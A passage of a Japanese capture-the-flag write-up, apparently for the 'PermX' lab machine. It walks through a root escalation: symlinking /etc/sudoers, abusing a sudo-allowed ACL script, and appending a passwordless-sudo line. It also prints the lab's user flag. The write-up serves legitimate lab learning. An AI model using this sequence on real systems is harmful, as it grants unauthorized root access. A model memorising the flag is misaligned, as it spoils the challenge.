 rootでないユーザーは編集はできないと
```bash
mtz@permx:~$ ls -la /opt/acl.sh
-rwxr-xr-x 1 root root 419 Jun  5  2024 /opt/acl.sh

```

シンボリックリンクを作成
`/etc/sudoers`ファイルを指すシンボリックリンクを作成します。このリンクは`mtz`ユーザーのホームディレクトリに作られる
```bash
mtz@permx:~$ ln -s /etc/sudoers root

```

`acl.sh`スクリプトを使用して権限を変更
シンボリックリンクで指定したファイルに`mtz`ユーザーが読み取り・書き込み権限を持つように設定
```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/root

```

`/etc/sudoers`ファイルを編集
シンボリックリンクを通じて`/etc/sudoers`ファイルに以下の行を追加
`mtz`ユーザーはパスワードなしで任意のコマンドをrootとして実行可能にする
```bash
mtz@permx:~$ echo "mtz ALL=(ALL:ALL) NOPASSWD: ALL" >> /home/mtz/root
```

root権限でシェルを取得
```bash
mtz@permx:~$ sudo bash

```



- **Tactics**:
    - #Tactic_特権昇格
- **Techniques**:
    - #T1068_特権昇格のためのエクスプロイト
    - #T1055_プロセス注入
    - #T1053_スケジュールされたタスク/ジョブ
    - その他のPrivilege Escalation関連技術...




## Notes

- **Tactics**:
    - #Tactic_永続化
    - #Tactic_防御回避
- **Techniques**:
    - #T1098_アカウント操作
    - #T1553_信頼制御の転覆
    - #T1070_ホスト上の痕跡削除
    - その他のPersistence/Defense Evasion関連技術...

<このWriteupで特に重要な点や学んだことを追加で記載するセクション>

## Flags

- **User**: 5775c7bf081875a9a7b1d274866d546f
- **Root**: `<md5>`

### ポイント


- searchsploitで脆弱性検索して、全ての脆弱性が出たと思わずに、googleでも脆弱性を検索する
- 侵入は結局sshから